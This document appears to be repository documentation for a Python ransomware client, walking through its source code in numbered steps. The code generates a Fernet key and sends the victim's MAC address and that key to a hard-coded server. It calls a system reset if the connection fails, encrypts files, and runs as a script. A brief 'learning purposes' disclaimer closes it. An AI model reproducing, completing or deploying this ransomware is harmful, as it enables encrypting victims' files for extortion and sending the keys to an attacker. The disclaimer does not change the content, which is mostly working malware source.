 Client Documentation
====================

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. Import the necessary modules:

.. code-block:: python

   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. Class Ransomware:

.. code-block:: python

    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)

- Generate a random encryption key, initialize `System` object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

.. code-block:: python

    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()

- The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

.. code-block:: python

    def Encrypted(self):
        Encrypt(self.Private)

    def Decrypted(self):
        Decrypt(self.Private)

- The `Encrypted` method encrypts data using the generated private key.
- The `Decrypted` method decrypts data using the same private key.

.. code-block:: python

    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()

**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*
